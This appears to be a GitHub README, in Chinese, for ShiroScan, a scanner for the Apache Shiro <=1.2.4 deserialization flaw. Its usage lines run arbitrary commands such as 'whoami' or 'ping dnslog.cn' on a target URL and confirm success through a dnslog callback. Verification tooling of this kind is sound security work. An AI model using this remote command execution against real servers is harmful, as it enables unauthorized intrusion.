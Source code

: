 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

```
集成18个key进行fuzz
```

* 如果有帮助，请点个star哦，blog：www.svenbeast.com
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
